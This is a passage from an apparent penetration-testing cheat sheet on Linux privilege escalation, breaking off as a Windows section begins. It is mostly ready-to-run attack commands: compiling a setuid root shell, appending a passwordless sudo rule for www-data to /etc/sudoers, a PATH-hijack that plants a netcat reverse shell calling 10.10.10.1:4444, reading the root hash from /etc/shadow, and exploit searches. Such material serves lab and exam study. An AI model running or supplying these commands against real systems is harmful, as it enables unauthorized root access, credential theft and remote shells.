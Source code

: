             # Building the SUID Shell binary  
            gcc -o suid suid.c  
            # For 32 bit:  
            gcc -m32 -o suid suid.c
            ```

  - Create and compile an SUID from a limited shell (no file transfer)  

              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

- Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`

- You may find a command is being executed by the root user, you may be able to modify the system PATH environment variable
    to execute your command instead.  In the example below, ssh is replaced with a reverse shell SUID connecting to 10.10.10.1 on
    port 4444.

      set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
      echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
      chmod +x ssh

- SearchSploit  

      searchsploit –uncsearchsploit apache 2.2  
      searchsploit "Linux Kernel"  
      searchsploit linux 2.6 | grep -i ubuntu | grep local  
      searchsploit slmail

- Kernel Exploit Suggestions for Kernel Version 3.0.0  
     `./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0`
- Precompiled Linux Kernel Exploits  - ***Super handy if GCC is not installed on the target machine!***
    [*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)
- Collect root password
      `cat /etc/shadow |grep root`
- Find and display the proof.txt or flag.txt - LOOT!
      `cat find / -name proof.txt -print`

### Windows Privilege Escalation

- Windows Privilege Escalation resource
    <http://www.fuzzysecurity.com/tutorials/16.html>

- Metasploit Meterpreter Privilege Escalation Guide
    <https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/>

- Try the obvious - Maybe the user is SYSTEM or is already part of the Administrator group:  
